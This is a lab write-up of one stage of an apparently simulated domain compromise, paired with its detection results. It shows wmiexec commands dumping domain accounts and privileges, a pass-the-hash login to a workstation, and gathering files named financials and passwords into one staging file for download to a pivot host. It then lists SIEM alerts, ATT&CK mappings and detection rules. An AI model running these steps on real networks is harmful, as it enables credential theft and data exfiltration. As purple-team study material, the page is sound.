





# Stage 18 — Collection

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Phase 6 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-6-backdoors--smuggling-domain-persistence--rapid-exfiltration)  
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/54.png) · [alert](../../06-Resources/screenshots/thehive-alert/18.png)

## Objective

Gather and stage sensitive corporate data—including all domain user accounts, administrative privileges, confidential financial records, and stored passwords—from both the Domain Controller and Windows 10 workstation into temporary files, ready for exfiltration.

## Commands

```bash
# === Domain Controller (PC-DC.ad.lab) Collection via wmiexec ===
# Dump all domain user accounts into a temporary staging file
cmd /c "net user /domain > C:\Windows\Temp\domain_users.txt"

# Dump comprehensive token, privilege, and group information for the administrative session
cmd /c "whoami /all > C:\Windows\Temp\admin_info.txt"

# Download the staged intelligence files from the DC to the DVWA pivot host
lget C:\Windows\Temp\domain_users.txt
lget C:\Windows\Temp\admin_info.txt
exit

# === Windows 10 Workstation (192.168.56.20) Collection via Pass-the-Hash ===
# Authenticate to the Windows 10 workstation using the Administrator NTLM hash
python3 /usr/local/bin/wmiexec.py -hashes aad3b***ee:cc814***9fb Administrator@192.168.56.20

# Aggregate confidential user documents (financials.txt, passwords.txt) into a single staging file
cmd /c "type C:\Users\win10\Documents\Sensitive\* > C:\Windows\Temp\sensitive_data.txt"

# Download the consolidated sensitive file from the workstation to the DVWA pivot host
lget C:\Windows\Temp\sensitive_data.txt
exit
```

## What happened

With administrative control established across both the Domain Controller and endpoint workstations, the next step was harvesting the goods:

1. **Harvesting domain intelligence from the DC:** In the active WMI session on `PC-DC`, I dumped the full directory list of domain users: `net user /domain > C:\Windows\Temp\domain_users.txt`. Then I dumped the complete security token and group privilege report: `whoami /all > C:\Windows\Temp\admin_info.txt`. Using Impacket's built-in `lget` command over SMB, I downloaded both files directly from the DC into `/tmp/` on our DVWA pivot (`192.168.56.30`).
2. **Harvesting confidential files from Windows 10:** Next, I used Pass-the-Hash with the `Administrator` NTLM hash to connect to the Windows 10 workstation (`192.168.56.20`) via `wmiexec.py`. Browsing the filesystem revealed a high-value folder: `C:\Users\win10\Documents\Sensitive\`.
3. **Consolidating the workstation files:** I merged the sensitive documents (`financials.txt` and `passwords.txt`) into a single staging file: `cmd /c "type C:\Users\win10\Documents\Sensitive\* > C:\Windows\Temp\sensitive_data.txt"`.
4. **Downloading to the pivot:** Using `lget`, I pulled `sensitive_data.txt` off the workstation into `/tmp/` on DVWA. All stolen data was now consolidated on our pivot machine, staged and ready to be exfiltrated out of the network.

## Evidence

### Attack Execution Screenshots


*Figure 18.1: Enumerating domain accounts and administrative privileges to temporary staging files on PC-DC and downloading via lget.*


*Figure 18.2: Lateral movement via Pass-the-Hash to Windows 10, concatenating sensitive documents, and downloading via lget.*

### Detection & Alert Screenshots


*Figure 18.3: TheHive alert dashboard showing process fan-out alerts generated on both DomainWin10 (DC) and Win10User endpoints.*


*Figure 18.4: Wazuh Sysmon alert (Rule 100613) capturing command execution on PC-DC writing `domain_users.txt` and `admin_info.txt`.*


*Figure 18.5: Wazuh Sysmon alert (Rule 100613) on Win10 workstation detecting sensitive data aggregation to `sensitive_data.txt`.*

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh (Host Command Audit) | Bash command by root: `python3 wmiexec.py -hashes :cc814... Administrator@192.168.56.20` | Rule 100220 (Level 5) | SIEM Indexed (`Wazuh-Raw-Alerts.csv` Row 9391) | High | Detected (Workstation WMI Execution) |
| Wazuh (Host Command Audit) | Bash command by root: `ls /tmp/domain_users.txt /tmp/admin_info.txt /tmp/sensitive_data.txt` | Rule 100220 (Level 5) | SIEM Indexed (`Wazuh-Raw-Alerts.csv` Row 9393) | Medium | Detected (Staged Loot Verification) |
| Wazuh / Sysmon | Impacket wmiexec detected (`net user /domain > domain_users.txt`) | 100613 | `[FANOUT x2] [DomainWin10] parent PID 4432` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec detected (`whoami /all > admin_info.txt`) | 100613 | `[FANOUT x2] [DomainWin10] parent PID 4432` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec detected (`type C:\Users\win10\Documents\Sensitive\* > sensitive_data.txt`) | 100613 | `[FANOUT x3] [Win10User] parent PID 4008` | Medium (2) | Detected |

> [!NOTE]
> Wazuh's custom behavioral rule `100613` effectively detected the command execution on both hosts by matching Impacket's command-line execution signature, which routes output through temporary files on `\\127.0.0.1\ADMIN$\__*`. Furthermore, the explicit redirection to `C:\Windows\Temp\` was preserved in the command line argument telemetry.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Collection | Data from Local System | | T1005 |
| Collection | Data Staged | Local Data Staging | T1074.001 |
| Discovery | Account Discovery | Domain Account | T1087.002 |
| Discovery | System Owner/User Discovery | | T1033 |
| Lateral Movement | Use Alternate Authentication Material | Pass the Hash | T1550.002 |
| Execution | Windows Management Instrumentation | | T1047 |

## Detection opportunities

- **Command-Line Output Redirection Detection:** Create Sysmon rules (Event ID 1) alerting on command interpreters (`cmd.exe`, `powershell.exe`) executing output redirection (`>`, `>>`) into staging directories such as `C:\Windows\Temp\`, `C:\Users\Public\`, or `C:\ProgramData\`.
- **Sensitive Directory Access Auditing:** Enable Windows Object Access Auditing (Event ID 4663) or Sysmon File Create/Read monitoring on user document repositories (`C:\Users\*\Documents\Sensitive\*`) to detect bulk data access by administrative accounts.
- **Bulk Discovery Command Burst Detection:** Correlate multiple high-impact discovery utilities executed within short intervals (e.g., `net user /domain`, `whoami /all`, `net group /domain`, `nltest`) spawning from non-interactive shell sessions.
- **Administrative Share File Retrieval (lget) Auditing:** Monitor SMB read activity targeting `ADMIN$` or `C$\Windows\Temp\` originating from internal Linux pivot hosts or non-standard administrative endpoints.

## Notes

- **Staged Intelligence Files (Domain Controller):**
  - `C:\Windows\Temp\domain_users.txt` (Active Directory user accounts)
  - `C:\Windows\Temp\admin_info.txt` (Administrative tokens, privileges, and SIDs)
- **Staged Sensitive Files (Windows 10 Workstation):**
  - `C:\Windows\Temp\sensitive_data.txt` (Consolidation of `financials.txt` and `passwords.txt`)
- **Staging Drop Zone:** `/tmp/` on DVWA pivot host (`192.168.56.30`)
- **Key Observation:** The adversary used native Windows utilities (`type`, `net`, `whoami`) to perform collection, relying on Living-off-the-Land Binaries (LOLBins) to avoid triggering basic file-signature antivirus detections.
